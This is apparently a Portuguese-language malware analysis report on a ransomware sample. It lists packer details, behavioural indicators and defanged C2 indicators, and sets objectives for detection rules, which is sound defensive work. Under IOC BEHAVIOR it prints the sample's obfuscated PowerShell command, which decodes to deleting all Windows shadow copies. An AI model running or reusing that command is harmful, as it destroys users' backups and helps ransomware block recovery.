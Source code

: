 SHA256: 4098b54c9d27b00ce34d04ffac24213ed28993a2854827851b157d63407c2e4e

 - Objetivo 1: Exemplos de informações relevantes: arquivos procurados, alterações no sistema, compilador, c2,  diretórios ignorados, e tudo mais que achar relevante.
    Encontrado Protector/Packer: VMProtect(1.60-2.05)
    Encontrado Linker: Microsoft Linker(14.12)

IOC BEHAVIOR
    Inclui 8 caracteres aleatorios na extensão dos arquivos
    Altera o WallPaper da area de trabalho via "Windows Registry" -> \REGISTRY\USER\S-1-5-21-2455352368-1077083310-2879168483-1000\Control Panel\Desktop\WallPaper
    Spawn PowerShell com CommanLine malicioso -> powershell -ep bypass -c "(0..61)|%{$s+=[char][byte]('0x'+'4765742D576D694F626A6563742057696E33325F536861646F77636F7079207C20466F72456163682D4F626A656374207B245F2E44656C65746528293B7D20'.Substring(2*$_,2))};iex $s"
    Spawn VSSVC
    
IOC URL
    hxxp://darksidfqzcuhtk2[.]onion

IOC DOMAIN
    securebestapp20[.]com

 - Objetivo 2: Regra Yara para detectar o sample

 - Objetivo 3: Assinatura hipotética baseada em uma sequência de comportamentos, 


Ferramentas utilizadas:
    Detect It Easy
    X64dbg
    
